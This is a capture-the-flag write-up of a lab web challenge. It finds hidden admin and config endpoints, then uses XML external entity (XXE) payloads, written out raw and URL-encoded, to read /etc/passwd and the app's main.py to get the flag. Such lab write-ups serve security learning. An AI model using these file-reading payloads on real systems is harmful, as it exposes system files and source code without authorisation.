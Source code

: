 # Model E1337 - Rolling Code Lock - FLAG0

## 0x00 Home

![](./imgs/home.jpg)

Tried couple of different code but all show errors.

```
Code incorrect. Expected 06947342
```

## 0x01 Directory

Try scan sub directory with Burp

![](./imgs/directory.jpg)

And there is a comment in source code.

http://127.0.0.1/xxxxxxxxxx/admin

![](./imgs/admin.jpg)

## 0x02 get-config

http://127.0.0.1/xxxxxxxxxx/get-config

Looks like some config thing using XML

![](./imgs/get-config.jpg)

## 0x03 set-config

http://127.0.0.1/xxxxxxxxxx/set-config

It actually exist but may need parameter to set the XML

![](./imgs/set-config.jpg)

## 0x04 XXE

Prepare the XXE payload.

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd">]><config><location>&xxe;</location></config>
```

And encode to [url format][1] 

```
%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E
```

http://127.0.0.1/xxxxxxxxxx/set-config?param=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![](./imgs/param.jpg)

Successfully write in XXE and 302 redirect to admin page and read out /etc/passwd

![](./imgs/passwd.jpg)

## 0x05 main.py

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>
```

http://127.0.0.1/xxxxxxxxxx/set-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22main.py%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

Execute and get the FLAG in the [main.py][2]

![](./imgs/flag.jpg)

[1]: https://www.urlencoder.org/
[2]: ./main.py